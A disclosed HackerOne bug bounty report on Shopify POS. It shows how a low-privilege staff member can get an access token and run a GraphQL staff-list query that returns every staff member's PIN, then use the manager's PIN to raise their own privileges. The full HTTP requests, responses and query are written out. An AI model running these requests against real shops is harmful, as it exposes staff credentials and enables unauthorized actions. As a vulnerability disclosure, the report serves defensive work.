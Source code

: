 # [h1-2102] [Yaworski's Broskis] Low privilege user can read POS PINs via graphql and elevate his privilege

## Report Details
- **Report ID**: 1091303
- **URL**: https://hackerone.com/reports/1091303
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-31T16:38:23.682Z
- **Disclosed**: 2021-04-08T19:33:15.917Z

## Reporter
- **Username**: ramsexy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Summary:
A low privilege user (both in the shop and in the POS) can read POS PINs via graphql and elevate his privilege with a physical access to the POS.

## Steps To Reproduce:
1. Log in to your shop and install the POS app https://apps.shopify.com/shopify-pos
2. Log in Shopify Plus as an org owner and create a user with the minimal privilege requirements

    {F1178771}
2. Go to the newly created user POS staff page (https://h1-2102-ramsexy.myshopify.com/admin/apps/pos/staff/61357948984) and check "Give Point of Sale access" and select Associate role.

    {F1178781}
3. Go back to the user permission page in Shopify Plus, and remove all permission from the newly created user. Please notice the following message about POS. 
    {F1178787}
4. As the low priv user, request a POS `access_token` :

    Request :

    ```http
POST /admin/api/xauth HTTP/1.1
Accept: application/json
Content-Type: application/json; charset=UTF-8
Content-Length: 137
Host: h1-2102-ramsexy.myshopify.com
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/4.0.0

    {"api_key":"a53cf2ce9b5dabf5dd222b3615c29569","login":"ramsexy+h1-2102-3@wearehackerone.com","password":"███"}
``` 

    Response :

    ```json
{
    "access_token": "█████",
    "impersonated_by_employee": false,
    "scope": "read_analytics,write_checkouts,write_customers,write_draft_orders,write_fulfillments,read_gdpr_data_request,write_gift_cards,write_inventory,write_marketing_events,write_orders,write_price_rules,write_product_listings,write_products,write_reports,write_resource_feedbacks,write_script_tags,write_shipping,read_shopify_payments_bank_accounts,read_shopify_payments_disputes,read_shopify_payments_payouts,read_all_orders,write_apps,write_channels,read_disputes,write_home,write_locations,write_notifications,write_payment_gateways,read_payment_settings,write_publications,read_shopify_payments,write_users,write_order_edits,write_point_of_sale_devices,write_retail_roles,write_merchant_managed_fulfillment_orders,write_third_party_fulfillment_orders,write_cash_tracking,write_physical_receipts,write_discounts,write_smart_grid,write_images,write_retail_bbpos_merchant,write_retail_addon_subscriptions,read_checkout_settings,write_stripe_terminal_readers,read_all_subscription_contracts,read_product_recommendations,write_retail_user_data,write_pos_channel.access,write_pos_compliance.access",
    "associated_user_scope": "write_checkouts,write_product_listings,write_resource_feedbacks,read_shopify_payments_disputes,read_shopify_payments_payouts,write_point_of_sale_devices,write_cash_tracking,write_physical_receipts,write_retail_bbpos_merchant,write_stripe_terminal_readers,write_pos_channel.access,write_pos_compliance.access,read_locations,read_users,read_retail_roles,read_smart_grid,read_retail_addon_subscriptions,read_retail_user_data",
    "session": null,
    "account_number": null,
    "associated_user": {
        "id": 61357948984,
        "first_name": "das",
        "last_name": "das",
        "email": "ramsexy+h1-2102-3@wearehackerone.com",
        "account_owner": false,
        "locale": "en",
        "collaborator": false,
        "email_verified": true
}
```
    * The `api_key` can be found in the page at https://h1-2102-ramsexy.myshopify.com/admin/apps/pos.
    * The `login` and `password` are your low privilege user credentials

5. Using this `access_token` in the `X-Shopify-Access-Token` header, you can query the graphql endpoint to retrieve the POS staff information, including PINs:

    Request:
    ```http
POST /admin/api/unversioned/graphql HTTP/1.1
Host: h1-2102-ramsexy.myshopify.com
Content-Type: application/json
Connection: close
X-Shopify-Override-User-Locale: en-US
X-Shopify-Access-Token: ███
Accept: application/json
User-Agent: Shopify POS/iOS/6.28.0 (iPhone8,4/com.jadedpixel.pos/14.2.0) - Build 855
Content-Length: 1002
Accept-Language: en-us
Accept-Encoding: gzip, deflate

    {"query":"fragment RemoteStaffMember on StaffMember { __typename active email name firstName lastName phone pin id isShopOwner accountType permissions { __typename userPermissions } privateData { __typename updatedAt identityOwned identityUuid } retailData(location: $locationID) { __typename canInitializePos posAccess retailRole { __typename ... RemoteRetailRole } } } fragment RemoteRetailRole on RetailRole { __typename id name isDefault: default hidden updatedAt retailRolePermissions { __typename ... RemoteRetailRolePermission } } fragment RemoteRetailRolePermission on RetailRolePermission { __typename access retailPermissionTag } query StaffList($first: Int, $after: String, $query: String, $locationID: ID) { __typename shop { __typename staffMembers(first: $first, after: $after, query: $query) { __typename edges { __typename node { __typename ... RemoteStaffMember } cursor } pageInfo { __typename hasNextPage } } } }","variables":{"first":100,"query":"updated_at:>1970-01-01T00:00:00Z"}}
```

    Response:

    ```json
[...]
    "__typename": "StaffMember",
    "active": true,
    "email": "ramsexy+h1-2102@wearehackerone.com",
    "name": "Ram Sexy",
    "firstName": "Ram",
    "lastName": "Sexy",
    "phone": null,
    "pin": "3333",
    "id": "gid:\/\/shopify\/StaffMember\/61340352568",
    "isShopOwner": true
[...]
```

6. Using that information, the low privilege user can use the Manager PIN while using the POS device, which allow him to perform various actions he should not be able to do.

## Impact

A low privilege user (both in the shop and in the POS) who should only be able to log into the POS with limited privilege using his PIN can retrieve Manager PIN to elevate his privilege.

## Attachments
- Screen_Shot_2021-01-31_at_10.54.02_AM.png
- Screen_Shot_2021-01-31_at_11.01.06_AM.png
- Screen_Shot_2021-01-31_at_11.06.15_AM.png
